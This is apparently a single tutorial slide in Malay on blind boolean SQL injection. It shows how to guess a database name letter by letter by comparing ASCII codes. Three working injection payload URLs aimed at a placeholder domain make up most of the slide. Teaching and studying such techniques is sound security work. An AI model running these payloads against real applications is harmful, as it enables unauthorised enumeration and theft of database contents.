

# Guessing Database name
Selepas kita dah tahu Panjang Database, sekarang kita kena guess Database name dengan menggunakan ASCII code.
Payload di bawah ini digunakan untuk check First letter dlm Database, Jika TRUE maksudnya code huruf pertama dalam Database itu adalah atas daripada 100:

http://domain.com/php?id=1' AND (ascii(substr((select database()),1,1))) > 100 --+

Contohnya, kita try n error dan dapat code huruf pertama adalah 115 kerana ianya return TRUE, payload yang digunakan adalah seperti berikut:

http://domain.com/php?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+
*115 adalah huruf s jika dirujuk kepada ‘https://www.ascii-code.com/’

Kemudian kita boleh test untuk cari huruf kedua pula dengan cara tukar payload seperti berikut:

http://domain.com/php?id=1' AND (ascii(substr((select database()),2,1))) = 115 --+

DFM_Rekrut